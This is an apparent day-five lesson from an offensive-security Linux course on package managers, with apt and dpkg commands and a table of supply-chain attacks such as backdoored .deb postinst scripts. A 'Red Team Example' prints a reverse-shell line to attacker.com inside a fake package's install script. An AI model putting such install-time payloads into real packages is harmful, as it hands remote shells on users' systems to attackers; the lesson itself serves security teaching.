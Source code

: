 # Day 5 – Linux Package Managers & Dependency Abuse
![30day_linux](https://github.com/user-attachments/assets/f99d5a61-7e2f-4961-b91e-0d6cb0f05c9a)

Package managers are central to Linux systems — and are a potential goldmine for attackers. This lesson covers how they work and how they're abused in real-world hacks.

---

## 📦 What Is a Package Manager?

A package manager handles:
- Installation and removal of software
- Dependency resolution
- System software updates

Different distros use different managers:
- `apt` → Debian-based (Ubuntu, Kali)
- `yum` or `dnf` → RedHat, Fedora
- `pacman` → Arch Linux

---

## 🔧 Key Commands (APT-based distros)

```bash
sudo apt update             # Refresh package lists
sudo apt upgrade            # Update all packages
sudo apt install <tool>     # Install software
sudo apt remove <tool>      # Uninstall
dpkg -l                     # List installed packages
```
Search and list packages:
```
dpkg -l | grep ssh
```

### 📂 Inspect Installed Packages
```
which nmap                 # Path to binary
dpkg -L nmap               # List files installed by a package
```

### 🧠 Attacker Use Cases

| Technique                   | Description                                                                          |
| --------------------------- | ------------------------------------------------------------------------------------ |
| **Dependency Hijacking**    | Create a malicious `.deb` file with the same name as a trusted library or dependency |
| **Backdoored .deb Files**   | Add preinst/postinst scripts to run payloads during install                          |
| **Persistence via Updates** | Fake update packages that re-deploy backdoors during upgrades                        |
| **Hijacking Local Repos**   | If the system pulls from a local mirror, inject payloads via a fake repository       |

### 🧪 Task of the Day
1 - Install and inspect a tool:
```
sudo apt install netcat
which nc
dpkg -L netcat
```
2 - Find scripts run during install:
```
ls -l /var/lib/dpkg/info/netcat*.*
```

3 - Look inside:
```
cat /var/lib/dpkg/info/netcat.postinst
```

### 🔐 Red Team Example
A fake .deb package containing:
```
postinst: bash -i >& /dev/tcp/attacker.com/4444 0>&1
```
When installed, it gives an attacker a reverse shell.

### 📡 Follow us for more:
➡️ https://t.me/cybersecplayground


---

Be ready for **Day 6** — we’ll begin scripting with **Bash**, your weapon for automation and post-exploitation.
